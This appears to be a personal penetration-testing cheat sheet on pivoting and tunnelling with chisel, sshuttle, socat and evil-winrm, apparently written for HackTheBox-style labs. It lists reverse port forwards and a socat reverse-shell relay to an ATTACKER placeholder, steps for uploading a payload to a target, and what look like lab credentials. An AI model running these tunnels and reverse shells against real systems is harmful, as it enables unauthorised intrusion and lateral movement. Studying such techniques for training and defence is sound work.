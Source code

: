
- Forward SOCK Proxy
  - Pivot: ./chisel server -p LISTEN_PORT --socks5
  - attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
  
- Port Forward
  - attacker: ./chisel server -p LISTEN_PORT --reverse &
  - Pivot to target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
  - Pivot to our machine: ./chisel server -p 1337 --reverse &
  
- Local Port Forward
  - attacker: ./chisel server -p LISTEN_PORT
  - Pivot: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
    - Victim: chisel client ATTACKER:PORT R:LOCALPORT:localhost:TargetPORT 

- In the machine with evil-win open firewall port
  - cd w
  - chisel client => attacking
  - chisel server => victim

### SSHUTTLE
- Easier to handle + Only SSH + No need of proxychains
- only with ssh

```
# install
apt-get install sshuttle

# Virtualenv
virtualenv -p python3 /tmp/sshuttle
. /tmp/sshuttle/bin/activate
pip install sshuttle
```

- sshuttle -r username@address Target_IP/Network 
- sshuttle -r ubuntu:'HTB_@cademy_stdnt!'@10.129.204.118 172.16.5.0/23 -v
  - -r pivot 
  - -N to guess the subnet
- No password:
  - sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET
  - -x exclude compromised server
- Direct access to evil-winrM
  - evil-winrm -u pacoca -p 123456 -i 10.200.101.150
-Reset resolved.service: sudo systemctl restart systemd-resolved.service

### SOCAT
- Bidirectional ==> pipe socket ==> 2 independent network without SSH
  - mestasploit listener <==> socat on target
    - socat will listen on port 8080 and forward everything to attacker 80

```
# Reverse shell
socat TCP4-LISTEN:8080,fork TCP4:ATTACKER:80
```
  - Steps Reverse shell
    1.  Start socat listener on the pivot
    2.  Create payload for target
    3.  upload payload to the target
    4.  start multi handler on the attacker
